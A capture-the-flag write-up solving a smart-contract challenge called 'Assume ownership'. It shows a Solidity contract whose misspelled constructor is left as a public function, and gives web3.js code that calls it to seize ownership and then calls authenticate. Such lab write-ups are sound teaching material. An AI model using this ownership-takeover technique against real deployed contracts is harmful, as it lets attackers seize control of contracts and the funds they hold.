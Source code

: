 # 18. Assume ownership

To complete this challenge, become the `owner`.

## Target contract

```solidity
pragma solidity ^0.4.21;

contract AssumeOwnershipChallenge {
    address owner;
    bool public isComplete;

    function AssumeOwmershipChallenge() public {
        owner = msg.sender;
    }

    function authenticate() public {
        require(msg.sender == owner);

        isComplete = true;
    }
}
```

## Vulnerability

This issue is well known, it's not a technical issue but a language design that lead to silly mistakes with potentially big consequences. The contract name is `AssumeOwnershipChallenge`, its constructor should be named `AssumeOwnershipChallenge` but there is a typo as it is named `AssumeOwmershipChallenge` (typo in OwMership).

To take control of that contract we can simply call `AssumeOwmershipChallenge` that was supposed to be the constructor but happens to be a simple public function because of the typo:

```js
// CHANGE THIS FOR YOU CHALLENGE CONTRACT ADDRESS
const challengeContract = "0x77C1a906e757aAe8086FBfFacF8691E092C9FBCf";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "AssumeOwmershipChallenge",
    type: "function",
    inputs: [],
  },
  []
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
});
```

And call `authenticate` to validate the challenge :

```js
// CHANGE THIS FOR YOU CHALLENGE CONTRACT ADDRESS
const challengeContract = "0x77C1a906e757aAe8086FBfFacF8691E092C9FBCf";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "authenticate",
    type: "function",
    inputs: [],
  },
  []
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
});
```

You can submit the challenge !
